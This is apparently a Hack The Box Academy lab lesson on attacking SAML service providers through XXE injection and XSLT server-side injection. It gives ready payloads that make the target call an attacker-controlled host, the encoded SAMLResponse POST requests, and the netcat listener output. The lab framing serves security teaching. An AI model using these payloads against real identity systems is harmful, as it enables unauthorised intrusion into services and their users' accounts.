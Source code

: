 # Additional SAML Vulnerabilities

Since SAML uses an XML data format for data representation, flawed SAML implementations may be vulnerable to attacks on XML-based data. These are XML eXternal Entity Injection (XXE) and XSLT Server-side Injection.

## XXE Injection

If a SAML service provider relies on a misconfigured XML parser that loads external entities, it may be vulnerable to XXE injection. We can try injecting an XXE payload into the SAML response to test for this vulnerability. For instance, we can try to get a simple connection to a system under our control to confirm the vulnerability:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://172.17.0.1:8000"> %xxe; ]>
```
To inject the payload, we need to obtain the XML representation of the SAML response, just like we did in the previous sections. We can then inject the payload at the beginning of the SAML response, resulting in the following structure:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://172.17.0.1:8000"> %xxe; ]>
<samlp:Response>
	[...]
</samlp:Response>
```
After Base64- and URL-encoding the XML data, we can send the manipulated SAML response:

```http
POST /acs.php HTTP/1.1
Host: academy.htb
Content-Length: 6205
Content-Type: application/x-www-form-urlencoded

SAMLResponse=PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0idXRmLTgiPz4NCjx4c2w6c3R5bGVzaGVldCB2ZXJzaW9uPSIxLjAiIHhtbG5zOnhzbD0iaHR0cDovL3d3dy53My5vcmcvMTk5OS9YU0wvVHJhbnNmb3JtIj4NCjx4c2w6dGVtcGxhdGUgbWF0Y2g9Ii8iPg0KPHhzbDpjb3B5LW9mIHNlbGVjdD0iZG9jdW1lbnQoJ2h0dHA6Ly8xNzIuMTcuMC4xOjgwMDAvJykiLz4NCjwveHNsOnRlbXBsYXRlPg0KPC94c2w6c3R5bGVzaGVldD4%3d&RelayState=%2Facs.php
```
If the service provider is vulnerable to XXE, we should receive a connection at the specified system:

```bash
kabaneridev@htb[/htb]$ nc -lnvp 8000

listening on [any] 8000 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 52206
GET / HTTP/1.1
Host: 172.17.0.1:8000
Connection: close
```
Since the vulnerability typically does not display the resulting data to us, we are dealing with a blind vulnerability, which makes successful exploitation significantly more complex. For more details on XXE, check out the Web Attacks module.

## XSLT Server-side Injection

Similarly to XXE, a misconfigured XML parser might also be vulnerable to XSLT server-side injection, depending on how the XML parser handles the SAML response data. Like before, we will try to inject a payload, resulting in a connection to a server under our control. We can achieve this using an XSLT payload like the following:

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<xsl:copy-of select="document('http://172.17.0.1:8000/')"/>
</xsl:template>
</xsl:stylesheet>
```
After Base64- and URL-encoding the payload, we can send the manipulated SAML response:

```http
POST /acs.php HTTP/1.1
Host: academy.htb
Content-Length: 361
Content-Type: application/x-www-form-urlencoded

SAMLResponse=PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0idXRmLTgiPz4NCjx4c2w6c3R5bGVzaGVldCB2ZXJzaW9uPSIxLjAiIHhtbG5zOnhzbD0iaHR0cDovL3d3dy53My5vcmcvMTk5OS9YU0wvVHJhbnNmb3JtIj4NCjx4c2w6dGVtcGxhdGUgbWF0Y2g9Ii8iPg0KPHhzbDpjb3B5LW9mIHNlbGVjdD0iZG9jdW1lbnQoJ2h0dHA6Ly8xNzIuMTcuMC4xOjgwMDAvJykiLz4NCjwveHNsOnRlbXBsYXRlPg0KPC94c2w6c3R5bGVzaGVldD4%3d&RelayState=%2Facs.php
```
Just like before, we should receive a connection if the service provider is vulnerable to XSLT server-side injection:

```bash
kabaneridev@htb[/htb]$ nc -lnvp 8000

listening on [any] 8000 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 57128
GET / HTTP/1.1
Host: 172.17.0.1:8000
Connection: close
```
Note that the service provider might be vulnerable, even though our injected payload does not contain a valid SAML response, and therefore, the service provider rejects our request and denies us access:

`POST request to academy.htb for /acs.php with SAMLResponse. Response is HTTP 302 Found, redirecting to /index.php with message "Invalid SAML Response. Not Authenticated."`

If injecting only the XSLT payload does not work, we should also attempt to inject the payload into the `ds:Transform` node of a valid SAML response to investigate whether the XSLT payload is triggered in the process of parsing the SAML data only if the SAML response contains valid authentication information.

Check out the Server-side Attacks module for more details on XSLT Server-side Injection.
